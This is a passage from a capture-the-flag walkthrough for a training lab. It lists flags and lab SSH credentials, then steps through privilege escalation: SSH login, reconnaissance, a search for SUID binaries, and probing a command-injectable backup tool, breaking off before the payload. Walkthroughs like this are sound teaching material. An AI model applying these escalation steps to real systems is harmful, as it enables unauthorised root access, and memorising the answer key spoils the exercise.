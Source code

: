 ### Steps:
1. Must be logged in as admin or system user (see FLAG 2)
2. From dashboard, click "File Browser"
3. Click on `config.bak` file to expand it
4. You'll see:
   ```
   SSH Access:
   Username: ctfuser
   Password: artemis2024

   Flag: CTF{ssh_4cc3ss_gr4nt3d}
   ```
5. Note these credentials for the next stage

---

## FLAG 4: Privilege Escalation
**Location:** `/root/flag4.txt` (requires root access)
**Flag:** `CTF{pr1v1l3g3_3sc4l4t10n_pwn3d}`

### Step 1: SSH Access
```bash
ssh ctfuser@localhost -p 2222
# Password: artemis2024
```

### Step 2: Initial Reconnaissance
```bash
# You'll see the welcome message automatically
ls -la                    # List files
cat NOTES.txt             # Read hints about backup_tool
cat .bash_history         # See previous commands
```

### Step 3: Find SUID Binaries
```bash
find / -perm -4000 2>/dev/null
```

You'll find `/usr/local/bin/backup_tool` with SUID bit set (owned by root).

### Step 4: Test the Vulnerable Binary
```bash
# Try to read a root file
backup_tool /root/flag4.txt
```

You'll get a hint message! It tells you that simply reading files isn't enough - you need a proper ROOT SHELL.

### Step 5: Exploit Command Injection for Shell Access
The binary is vulnerable to command injection. Use the `-p` flag to preserve privileges:
